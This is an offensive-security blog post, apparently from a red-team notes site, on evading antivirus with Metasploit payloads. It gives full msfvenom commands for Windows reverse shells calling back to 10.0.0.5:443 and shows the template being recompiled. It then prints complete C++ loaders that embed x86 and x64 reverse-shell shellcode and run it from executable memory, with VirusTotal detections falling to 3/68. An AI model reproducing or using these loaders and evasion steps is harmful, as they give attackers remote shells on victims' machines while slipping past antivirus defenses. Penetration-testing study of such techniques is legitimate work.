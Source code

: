 ```yaml
---
layout: post
title: "av bypass with metasploit templates"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /defense-evasion/
---
```


# AV Bypass with Metasploit Templates and Custom Binaries

This is a quick look at a couple of simple ways that **attempt** to bypass antivirus vendors for your shellcodes.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:

![](../../.gitbook/assets/msf-templates-default-payload.png)

## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. The payload we generated earlier got injected into the template for which the source code is provided below:

![](../../.gitbook/assets/msf-template.png)

Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

...and regenerate the payload using the newly compiled template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections for the new executable dropped from 48 to 36 and that did not require any code change!

![](../../.gitbook/assets/msf-template-vt2.png)

## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:

![](../../.gitbook/assets/msf-template-sizes.png)

...it seems that we can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections albeit not by much - this time they drop from 36 to 32:

![](../../.gitbook/assets/msf-template-vt3.png)

## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](../code-injection-process-injection/process-injection.md) that is based on the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

{% code title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode %}

This time [VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:

![](../../.gitbook/assets/msf-vt5.png)

## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

{% code title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode %}

[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:

![](../../.gitbook/assets/msf-vt4.png)

## References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/" %}
@spotheplanet
